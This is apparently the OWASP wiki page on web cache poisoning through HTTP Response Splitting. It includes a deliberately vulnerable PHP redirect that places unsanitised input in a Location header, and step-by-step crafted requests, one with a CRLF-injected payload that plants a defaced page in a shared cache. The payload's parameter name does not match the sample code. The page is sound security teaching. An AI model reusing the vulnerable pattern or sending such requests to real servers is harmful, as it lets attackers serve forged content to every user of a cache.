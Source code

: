 ```yaml
---

layout: col-sidebar
title: Cache Poisoning
author: Weilin Zhong, Rezos
contributors: Pshanks, KristenS, Ingo86, Achim, kingthorin
permalink: /attacks/Cache_Poisoning
tags: attack, Cache Poisoning

---
```


{% include writers.html %}

## Description

The impact of a maliciously constructed response can be magnified if it
is cached either by a web cache used by multiple users or even the
browser cache of a single user. If a response is cached in a shared web
cache, such as those commonly found in proxy servers, then all users of
that cache will continue to receive the malicious content until the
cache entry is purged. Similarly, if the response is cached in the
browser of an individual user, then that user will continue to receive
the malicious content until the cache entry is purged, although only the
user of the local browser instance will be affected.

To successfully carry out such an attack, an attacker:

- Finds the vulnerable service code, which allows them to fill the HTTP header field with many headers.
- Forces the cache server to flush its actual cache content, which we want to be cached by the servers.
- Sends a specially crafted request, which will be stored in cache.
- Sends the next request. The previously injected content stored in cache will be the response to this request.

This attack is rather difficult to carry out in a real environment. The
list of conditions is long and hard to accomplish by the attacker.
However it's easier to use this technique than [Cross-User
Defacement](Cross-User_Defacement).

A Cache Poisoning attack is possible because of [HTTP Response
Splitting](HTTP_Response_Splitting) and flaws in the web
application. It is crucial from the attacker's point of view that the
application allows for filling the header field with more than one
header using CR (Carriage Return) and LF (Line Feed) characters.

## Examples

We have found a web page, which gets its service name from the "page"
argument and then redirects (302) to this service.

e.g. `http://testsite.com/redir.php?page=http://other.testsite.com/`

And exemplary code of the redir.php:

```
rezos@dojo ~/public_html $ cat redir.php
<?php
header ("Location: " . $_GET['page']);
?>
```

Crafting appropriate request:

1. Remove page from the cache

```http
GET http://testsite.com/index.html HTTP/1.1
Pragma: no-cache
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

HTTP header fields `Pragma: no-cache` and 'Cache-Control: no-cache' should 
remove the page from cache (if the page is stored in cache, obviously).

2. Using HTTP Response Splitting we force cache server to generate two responses to one request

```http
GET http://testsite.com/redir.php?site=%0d%0aContent-
Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aLast-
Modified:%20Mon,%2027%20Oct%202009%2014:50:18%20GMT%0d%0aConte
nt-Length:%2020%0d%0aContent-
Type:%20text/html%0d%0a%0d%0a<html>deface!</html> HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

We are intentionally setting the future time (in the header it's set to
27 October 2009) in the second response HTTP header "Last-Modified" to
store the response in the cache.

We may get this effect by setting the following headers:

- Last-Modified (checked byt the If-Modified-Since header)
- ETag (checked by the If-None-Match header)

3. Sending request for the page, which we want to replace in the cache of the server

```http
GET http://testsite.com/index.html HTTP/1.1
Host: testsite.com
User-Agent: Mozilla/4.7 [en] (WinNT; I)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg,
image/png, */*
Accept-Encoding: gzip
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8
```

In theory, the cache server should match the second answer from the
request #2 to the request #3. In this way we've replaced the cache
content.

The rest of the requests should be executed during one connection (if
the cache server doesn't require a more sophisticated method to be
used), possibly immediately one after another.

It may appear problematic to use this attack as a universal technique for
cache poisoning. It's due to cache server's different connection model
and request processing implementations. What does it mean? That for
example effective method to poison Apache 2.x cache with mod_proxy and
mod_cache modules won't work with Squid.

A different problem is the length of the URI, which sometime makes it
impossible to put the necessary response header, which would next be
matched to the request for the poisoned page.

The request examples used are from the Amit Klein paper referenced below, which were modified on the
needs of the article.

More information can be found in this document, which focuses on these
kinds of attacks [by Amit Klein, Director of Security and Research](http://packetstormsecurity.org/papers/general/whitepaper_httpresponse.pdf)
